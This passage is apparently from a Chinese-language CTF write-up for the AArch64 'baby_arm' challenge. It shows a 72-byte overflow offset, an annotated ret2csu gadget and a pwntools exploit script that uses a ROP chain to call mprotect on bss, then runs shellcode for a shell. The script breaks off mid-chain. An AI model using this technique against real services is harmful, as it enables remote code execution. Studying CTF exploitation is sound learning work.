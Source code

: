```


```

计算出来偏移是 72，这里 ROP 用到的是`ret2csu`

```
loc_4008AC                            ; CODE XREF: sub_400868+60↓j
                 LDR             X3, [X21,X19,LSL
                 MOV             X2, X22    ;将x22寄存器的内容赋给x2
                 MOV             X1, X23    ;将x23寄存器的内容赋给x1
                 MOV             W0, W24    ;将W24寄存器的内容赋给W0
                 ADD             X19, X19, 
                 BLR             X3    ；跳转到x3寄存器指向的地址
                 CMP             X19, X20    ；比较x19和x20是否相等
                 B.NE            loc_4008AC    ；如果不相等，就跳回loc_4008AC继续执行
loc_4008CC                              ; CODE XREF: sub_400868+3C↑j
                 LDP             X19, X20, [SP,
                 LDP             X21, X22, [SP,
                 LDP             X23, X24, [SP,
                 LDP             X29, X30, [SP],
                 RET


```

然后函数里面存在`mprotect`，我们利用`ROP`把`bss`段修改成可读可写可执行的权限，然后把`shellcode`写入里面，最后跳转到 bss 段即可获取到`shell`

`exp`:

```
from pwn import *
context.binary = "./baby_arm"
context.log_level='debug'
'''
if local:
    p = remote("106.75.126.171","33865")
elif debug:
    p = process(["qemu-aarch64", "-g", "1234", "-L", "/usr/aarch64-linux-gnu", "baby_arm"])
else:
    p = process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", "baby_arm"])
'''




sl = lambda x : r.sendline(x)
sd = lambda x : r.send(x)
sla = lambda x,y : r.sendlineafter(x,y)
rud = lambda x : r.recvuntil(x,drop=True)
ru = lambda x : r.recvuntil(x)
li = lambda name,x : log.info(name+':'+hex(x))
ri = lambda  : r.interactive()
ru("Name:")
shellcode = asm(shellcraft.aarch64.sh())
mprotect_point = 0x4110a0
mprotect_plt = 0x000000000400600
pay = shellcode + "a"*0xc+p64(mprotect_plt)

sl(pay)

code_1 = 0x4008CC
payload = "a"*72
payload += p64(code_1)
payload += p64(0)+p64(0x4008AC)
payload += p64(0)+p64(1)
```
